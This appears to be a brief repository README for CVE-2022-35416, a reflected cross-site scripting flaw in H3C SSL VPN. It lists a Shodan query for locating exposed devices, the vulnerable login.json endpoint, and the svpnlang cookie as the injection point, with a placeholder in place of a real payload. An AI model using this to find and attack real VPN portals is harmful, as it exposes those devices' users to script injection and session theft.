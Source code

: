 # CVE-2022-35416
H3C_SSL_VPN_XSS(Reflected XSS) CVE-2022-35416
# from  https://www.cloudwaf.cc/cve/cve-2022-35416 

Payload:
Shodan: http.html_hash:510586239
Access address：https://IP:PORT/wnm/login/login.json.
Payload: Cookie: svpnlang=__XSS_PAYLOAD__


Description
H3C SSL VPN through 2022-07-10 allows wnm/login/login.json svpnlang cookie XSS.

Good luck!
